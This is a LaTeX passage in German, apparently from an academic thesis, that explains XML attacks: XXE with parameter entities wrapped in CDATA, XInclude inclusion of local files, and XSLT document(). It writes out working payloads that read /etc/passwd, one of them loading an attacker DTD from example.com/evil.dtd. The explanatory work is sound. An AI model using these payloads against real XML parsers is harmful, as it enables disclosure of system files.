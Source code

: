 \begin{samepage}
\begin{example}
    In der \acrshort{dtd} des \acrshort{xml}-Dokuments definiert der Angreifer Parameter Entities für den Inhalt der Datei \texttt{/etc/passwd} sowie für Beginn und Ende einer CDATA-Sektion.

    \begin{verbatim}
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % end "]]>">
  <!ENTITY % dtd SYSTEM "http://example.com/evil.dtd">
  %dtd;
]>
<root>&all;</root>
    \end{verbatim}
    Mithilfe einer externen \acrshort{dtd}-Datei, die vom Angreifer unter der im Dokument angegeben \acrshort{url} abgelegt wurde, werden die einzelnen Parameter Entities zusammengesetzt.

    \begin{verbatim}
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%file;%end;">
    \end{verbatim}
\end{example}
\end{samepage}

\paragraph{\acrshort{xinclude}}

Auch bei Angriffen auf Basis von \gls{xinclude} enthält das zu parsende \acrshort{xml}-Dokument eine Anweisung zum Einbetten einer lokalen Datei~\cite{xinclude}. Im Gegensatz zu klassischen \acrshort{xxe}-Angriffen kann der eingebette Inhalt jedoch beliebiger Text sein, darf also z.B. auch ungültiges \acrshort{xml}-Markup enthalten.~\cite[S.~80]{spaeth2015dtdattacks}

\begin{example} Der \acrshort{xml}-Parser wird angewiesen, den Inhalt der Datei \texttt{/etc/passwd} in das Dokument einzubetten~\cite[Abschn.~3.1]{xinclude}.
    \begin{verbatim}
<?xml version="1.0" encoding="UTF-8"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text" />
</root>
    \end{verbatim}
\end{example}

Auch \acrfull{xslt} erlaubt die Einbindung von Dateien, beispielsweise über die \texttt{fn:document}-Funktion~\cite[Abschn. 20.1]{xslt} und eigenet sich daher prinzipell für \acrshort{fsa}-Angriffe.

